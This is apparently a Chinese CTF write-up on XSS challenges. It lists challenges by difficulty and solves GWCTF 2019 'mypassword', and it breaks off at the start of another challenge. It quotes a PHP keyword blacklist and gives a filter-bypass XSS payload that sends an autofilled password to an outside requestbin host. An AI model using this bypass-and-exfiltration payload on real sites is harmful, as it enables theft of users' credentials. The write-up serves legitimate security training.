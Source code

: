 [toc]

## XSS

### 简单

-   

### 签到

-   [GWCTF 2019]mypassword
-   [GKCTF 2021]CheckBot GKCTF0解题目，难度不用我多说了吧 考的是个tricks

### 中等

-   [CISCN2019 华东北赛区]Web2
-   [网鼎杯 2020 青龙组]notes
-   [Zer0pts2020]musicblog
-   [安洵杯 2019]cssgame xs-lerk 通过css的正则带出flag
-   math-is-fun1 css外带

### 困难

-   [SCTF2019]Math-IS-Fun-2 上面那道题的加强版？实际上没有反看到WP
-   [QWB2021 Quals]HardXSS hardxxe【

# [GWCTF 2019]mypassword

登陆前，js文件：

```javascript
if (document.cookie && document.cookie != '') {
	var cookies = document.cookie.split('; ');
	var cookie = {};
	for (var i = 0; i < cookies.length; i++) {
		var arr = cookies[i].split('=');
		var key = arr[0];
		cookie[key] = arr[1];
	}
	if(typeof(cookie['user']) != "undefined" && typeof(cookie['psw']) != "undefined"){
		document.getElementsByName("username")[0].value = cookie['user'];
		document.getElementsByName("password")[0].value = cookie['psw'];
	}
}
```

注册个号进去，源码里部分：

```php
if(is_array($feedback)){
	echo "<script>alert('反馈不合法');</script>";
	return false;
}
$blacklist = ['_',''','&','\','#','%','input','script','iframe','host','onload','onerror','srcdoc','location','svg','form','img','src','getElement','document','cookie'];
			foreach ($blacklist as $val) {
		        while(true){
		            if(stripos($feedback,$val) !== false){
		                $feedback = str_ireplace($val,"",$feedback);
		            }else{
		                break;
		            }
		        }
		    }
```

过滤的东西，是xss无疑了。

构造一个表单：

```html
<incookieput type="text" name="username">
<incookieput type="password" name="password">
<scrcookieipt scookierc="./js/login.js"></scrcookieipt>
<scrcookieipt>
    var psw = docucookiement.getcookieElementsByName("password")[0].value;
    docucookiement.locacookietion="http://http.requestbin.buuoj.cn/sxm9dysx/?a="+psw;
</scrcookieipt>
```

直接出flag

# [GKCTF 2021]CheckBot GKCTF

这题感觉有点问题，访问admin.php，POST，直接出flag？？？

# [CISCN2019 华东北赛区]Web2

有admin.php

注册个账号登进去，